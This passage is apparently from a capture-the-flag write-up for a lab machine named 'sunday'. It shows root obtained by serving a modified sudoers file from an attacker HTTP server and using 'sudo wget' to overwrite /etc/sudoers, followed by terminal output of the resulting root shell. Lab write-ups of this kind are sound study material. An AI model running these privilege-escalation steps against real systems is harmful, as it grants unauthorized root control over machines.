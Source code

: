 ```
# User privilege specification
root	ALL=(ALL) ALL

# Uncomment to allow people in group wheel to run all commands
# %wheel	ALL=(ALL) ALL

# Same thing without a password
# %wheel	ALL=(ALL) NOPASSWD: ALL

# Samples
# %users  ALL=/sbin/mount /cdrom,/sbin/umount /cdrom
# %users  localhost=/sbin/shutdown -h now
sammy ALL=(root) NOPASSWD: ALL
sunny ALL=(root) NOPASSWD: /root/troll
```

As you can see in the above, I set it to `ALL` for the user `Sammy` this way we can sudo anything! Now all we need to do is send the sudoers file back to the box by using a HTTP server and `sudo wget` on the victim!

We setup a SimpleHTTPServer using `python -m SimpleHTTPServer 80` in the same directory as our modified sudoers file, then we go back on the victim and we type the following `sudo wget 10.10.14.21/easysudoers --output-document=sudoers` - make sure you do this in the `/etc` directory! This should replace the `sudoers` file and when you run `sudo -l` you should see the user `Sammy` has permission to execute anything as sudo!

```
sammy@sunday:/etc$ sudo wget 10.10.14.21/easysudoers --output-document=sudoers
--17:09:44--  http://10.10.14.21/easysudoers
           => `sudoers'
Connecting to 10.10.14.21:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 786 [application/octet-stream]

100%[==============================================================================================================================================================>] 786           --.--K/s             

17:09:44 (83.13 MB/s) - `sudoers' saved [786/786]

sammy@sunday:/etc$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: ALL
sammy@sunday:/etc$ sudo su
root@sunday:/etc# id
uid=0(root) gid=0(root)
root@sunday:/etc# 
```

That's it, we've done it! You now have a root shell and we've completed the box! Linux misconfigurtions are cool, right?! Haha.